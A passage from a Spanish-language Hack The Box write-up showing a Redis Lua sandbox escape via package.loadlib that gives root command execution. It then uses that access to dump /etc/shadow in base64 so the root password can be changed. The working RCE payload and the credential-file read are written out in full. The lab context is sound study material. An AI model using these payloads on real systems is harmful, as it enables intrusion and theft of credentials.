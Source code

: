 ```redis
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ACA_VA_LO_QUE_QUERAMOS_EJECUTAR", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Si por ejemplo intentamos ejecutar el comando `id` vemos esto:

```redis
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shared/483bash_danSmithSH_redisCLI_evalRCE_id.png" style="width: 100%;"/>

OJOOOOOOOOO! Tenemos ejecución remota de comandos y efectivamente somos el usuario `root` (:

## Obteniendo Shell como <u>root</u> [📌](#cambiando-shadow) {#cambiando-shadow}

**Acá ya terminamos la máquina, pero si quieres obtener una terminal completica, quédate ;)**

...

Intentando obtener una reverse shell no logramos nada (o la obtenemos y nos saca al poco tiempo), así que usaremos una técnica bien guapetona para ingresar al sistema como el usuario **root**, cambiaremos su contraseña (tan tan tan TAAAN).

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shared/483google_mistery_smile.gif" style="width: 80%;"/>

Para ello modificaremos el objeto `/etc/shadow` (archivo que contiene las contraseñas hasheadas de los usuarios), son pasos sencillos:

* Obtenemos el contenido del archivo:

  Ejecutamos algo tan simple como:

  ```bash
  cat /etc/shadow | base64 -w 0 
  ```

  Esto para obtener el contenido en **base64** sin saltos de línea, veamos:

  ```bash
  eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /etc/shadow | base64 -w 0", "r"); local res = f:read("*a"); f:close(); return res' 0
  ```

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shared/483bash_danSmithSH_redisCLI_evalCatSHADOW.png" style="width: 100%;"/>

  Y en nuestra máquina:

  ```bash
  echo cm9...Ogo= | base64 -d  > shadow_file
  ```

  Ya tendríamos el archivo pa jugar:
